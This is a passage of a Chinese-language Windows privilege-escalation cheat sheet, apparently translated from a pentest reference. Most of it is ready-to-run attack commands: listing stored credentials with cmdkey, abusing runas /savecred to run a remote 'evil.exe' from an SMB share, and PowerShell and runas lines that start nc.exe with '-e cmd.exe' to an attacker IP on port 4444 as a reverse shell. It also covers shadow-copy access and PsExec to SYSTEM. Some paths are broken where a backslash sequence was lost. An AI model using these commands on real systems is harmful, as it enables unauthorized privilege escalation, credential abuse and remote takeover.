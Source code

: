 ## EoP - Runas

使用`cmdkey`列出机器上存储的凭据。

```powershell
cmdkey /list
当前存储的凭据：
 目标：Domain:interactive=WORKGROUP\Administrator
 类型：域密码
 用户：WORKGROUP\Administrator
```

然后您可以使用`runas`和`/savecred`选项来使用保存的凭据。
以下示例是通过SMB共享调用远程二进制文件。

```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

使用提供的凭据集运行`runas`。

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public
c.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public
c.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - 滥用卷影副本

如果您在机器上有本地管理员访问权限，请尝试列出卷影副本，这是进行权限提升的一种简单方法。

```powershell
# 使用vssadmin列出卷影副本（需要管理员访问权限）
vssadmin list shadows
  
# 使用diskshadow列出所有卷影副本
diskshadow list shadows all
  
# 创建指向卷影副本的符号链接并访问它
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

## EoP - 从本地管理员到NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```
